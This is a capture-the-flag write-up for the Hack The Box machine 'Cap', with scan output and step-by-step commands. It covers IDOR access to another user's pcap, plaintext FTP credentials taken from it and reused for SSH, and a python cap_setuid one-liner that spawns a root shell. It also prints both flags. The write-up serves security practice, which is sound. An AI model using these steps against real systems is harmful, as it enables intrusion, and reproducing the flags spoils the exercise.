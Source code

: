 ## Cap - Hack The Box Writeup

[Room Link](https://app.hackthebox.com/machines/351)

Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. 
Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. 
The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

**IP: 10.10.10.245**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Wireshark <br>

**Tools Used**: Nmap, Gobuster, Wireshark<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/BANNER.png"/>](https://github.com/mauzware)

[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting of with Nmap scan and Gobuster fuzzing.

  ```
  nmap -sC -sV -T5 10.10.10.245
  21/tcp open  ftp     vsftpd 3.0.3
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
  |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
  |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
  80/tcp open  http    Gunicorn
  |_http-title: Security Dashboard
  |_http-server-header: gunicorn
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u http://10.10.10.245 -w /usr/share/wordlists/dirb/common.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
  /ip                   (Status: 200) [Size: 17380]
  /netstat              (Status: 200) [Size: 31114]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```

- Anonymous FTP access not allowed.

---

## 🌐 Web Exploitation 

- You can't access `/data` but you can `/ip`. When you go to `Security Snapshot` it will redirect to you to `/data/8` and no additional info.

- Well, here I tried IDOR with `/data/0` and BOOOM! Found some data that we can download as `.pcap` file. Fire up the Wireshark and let's move on.

---

## 🧍 Initial Access

- After analyzing `.pcap` file I found credentials and some `.txt` file.

  ```
  220 (vsFTPd 3.0.3)

  USER nathan
  
  331 Please specify the password.
  
  PASS Buck3tH4TF0RM3!
  
  230 Login successful.
  
  SYST
  
  215 UNIX Type: L8
  
  PORT 192,168,196,1,212,140
  
  200 PORT command successful. Consider using PASV.
  
  LIST
  
  150 Here comes the directory listing.
  226 Directory send OK.
  
  PORT 192,168,196,1,212,141
  
  200 PORT command successful. Consider using PASV.
  
  LIST -al
  
  150 Here comes the directory listing.
  226 Directory send OK.
  
  TYPE I
  
  200 Switching to Binary mode.
  
  PORT 192,168,196,1,212,143
  
  200 PORT command successful. Consider using PASV.
  
  RETR notes.txt
  
  550 Failed to open file.
  
  QUIT
  
  221 Goodbye.
  ```
  
- Now, use this credentials to login with FTP and download `notes.txt` so we can read it.

  ```
  ftp 10.10.10.245         
  Connected to 10.10.10.245.
  220 (vsFTPd 3.0.3)
  Name (10.10.10.245): nathan
  331 Please specify the password.
  Password: 
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> whoami
  ?Invalid command.
  ftp> pwd
  Remote directory: /home/nathan
  
  ftp> ls
  229 Entering Extended Passive Mode (|||38798|)
  150 Here comes the directory listing.
  -rw-rw-r--    1 1001     1001            0 May 06 10:58 linpeas.sh
  drwxr-xr-x    3 1001     1001         4096 May 06 07:57 snap
  -r--------    1 1001     1001           33 May 06 04:02 user.txt
  226 Directory send OK.
  
  ftp> get user.txt
  local: user.txt remote: user.txt
  229 Entering Extended Passive Mode (|||40184|)
  150 Opening BINARY mode data connection for user.txt (33 bytes).
  100% |************************************************************************|    33      257.81 KiB/s    00:00 ETA
  226 Transfer complete.
  33 bytes received in 00:00 (1.13 KiB/s)
  
  $ cat user.txt            
  ab47ec857c0adc881b66b4c645a2bdd2
  ```
  
- First flag done! Now, I tried using same credentials for SSH and well... NEVER REUSE PASSWORDS!!!!!!!

  ```
  ssh nathan@10.10.10.245
  The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
  ED25519 key fingerprint is SHA256:[SNIP!].
  This key is not known by any other names.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
  nathan@10.10.10.245's password: 
  Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
  [SNIP!]
  Last login: Tue May  6 10:48:59 2025 from 10.10.14.31
  nathan@cap:~$ whoami
  nathan
  nathan@cap:~$ id
  uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
  nathan@cap:~$ pwd
  /home/nathan
  nathan@cap:~$ 
  ```

---

## 👑 Root Privilege Escalation

- After some enumeration, I found my way to root through Python as capability.

  ```
  nathan@cap:~$ getcap -r / 2>/dev/null
  /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  ```
  
- Just use Python one-liner to spawn a root shell.

  ```
  nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  root@cap:~# whoami
  root
  root@cap:~# cat /root/root.txt
  6250bd1f5c8754f39678d829da0b920d
  ```
  
- Now I see why this room is named `Cap`.

---

## 🏁 Flags

- **User Flag**: `ab47ec857c0adc881b66b4c645a2bdd2`
- **Root Flag**: `6250bd1f5c8754f39678d829da0b920d`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much honestly, pretty fun room tho.`

- What did I learn?
  `Practiced Wireshark.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
